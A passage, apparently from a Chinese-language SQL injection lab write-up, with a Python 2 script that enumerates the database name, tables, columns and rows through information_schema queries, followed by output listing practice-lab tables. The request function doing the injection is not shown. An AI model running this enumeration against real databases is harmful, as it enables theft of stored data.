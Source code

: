def get_database():
	sql = 'select database()'
	print u"当前数据库为："
	return loop(sql)

def get_tables(database):
	sqls = \[\]
	info = \[\] #存放表的数组
	for x in range(10):
		sqls.append('select table\_name from information\_schema.tables where table_schema="{0}" limit {1},1'.format(database,x))
	for sql in sqls:
		res = loop(sql)	
		if res!="":
			info.append(res)
		else:
			return info
def get_columns(database,table):
	sqls = \[\]
	info = \[\]
	for x in range(10):
		sqls.append('select column\_name from information\_schema.columns where table\_schema="{0}" and table\_name = "{2}" limit {1},1'.format(database,x,table))
	for sql in sqls:
		res = loop(sql)	
		if res!="":
			info.append(res)
		else:
			return info

def get_content(database,table,columns):
	sqls = \[\]
	info = \[\]
	for x in range(10):
		sqls.append('select {0} from {1}.{2} limit {3},1'.format(columns,database,table,x))
	for sql in sqls:
		res = loop(sql)	
		if res!="":
			info.append(res)
		else:
			return info
def main():
	current\_database = get\_database()
	tables = get\_tables(current\_database)
	columns = get\_columns(current\_database,tables\[3\])
	get\_content(current\_database,tables\[3\],columns\[2\])

if \_\_name\_\_ == '\_\_main\_\_':
	main()

输出结果如下：

s e c u r i t y
e m a i l s
r e f e r e r s
u a g e n t s
u s e r s
